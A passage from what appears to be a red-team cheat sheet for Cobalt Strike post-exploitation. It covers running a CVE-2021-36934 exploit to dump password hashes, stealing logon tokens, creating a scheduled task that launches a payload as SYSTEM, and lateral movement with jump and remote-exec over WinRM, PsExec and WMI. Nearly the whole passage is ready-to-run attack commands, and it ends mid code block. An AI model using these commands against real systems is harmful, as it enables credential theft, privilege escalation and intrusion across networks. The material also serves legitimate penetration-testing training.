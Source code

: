 # Exploit: Csharp implementation (https://github.com/cube0x0/CVE-2021-36934)
execute-assembly C:\CVE-2021-36934.exe
--> Dumps hashes to console upon successful exploitation
```

### Stealing logon tokens
If you obtained local Administrator privileges, you can steal a session token of another process to inherit their token privileges. This might require you to escalate to a SYSTEM Beacon if its being blocked.<br />
`steal_token <PID>`

### Elevating to SYSTEM Beacon
Assuming you gained local administrator privileges, one option to elevate to a SYSTEM Beacon is to use scheduled tasks to create a new scheduled task to run your payload as SYSTEM.<br />
```
run schtasks /create /tn "TaskName" /sc once /U DOMAIN\username /P Password1! /tr "cmd.exe /c C:\path\to\Payload.exe" /ru SYSTEM
run schtasks /run /tn "TaskName" --> Should pop SYSTEM Beacon
```

------------------------------------------------------------------------------------------
## Lateral Movement
Cobalt Strike jumping (OUTDATED)
```
# Jump using WinRM if it's enabled for the current user on the target system
jump winrm64 ops-jumpbox.lab.com HTTPSLISTENER

# Jump using PsExec if it's enabled for the current user on the target system
jump psexec64 ops-jumpbox.lab.com HTTPSLISTENER
```

Cobalt Strike remote-exec - Executes commands on a target system using psexec, winrm or wmi (OUTDATED)
```
# remote-exec using WMI
remote-exec wmi ops-jumpbox.lab.com cmd.exe /c "C:\Users\Public\payload.exe"

# remote-exec using PsExec
remote-exec psexec ops-jumpbox.lab.com cmd.exe /c "C:\Users\Public\payload.exe"
```

Enable Powershell Remoting manually
```
# Enable on local system with Admin privileges
powershell Enable-PSRemoting –Force

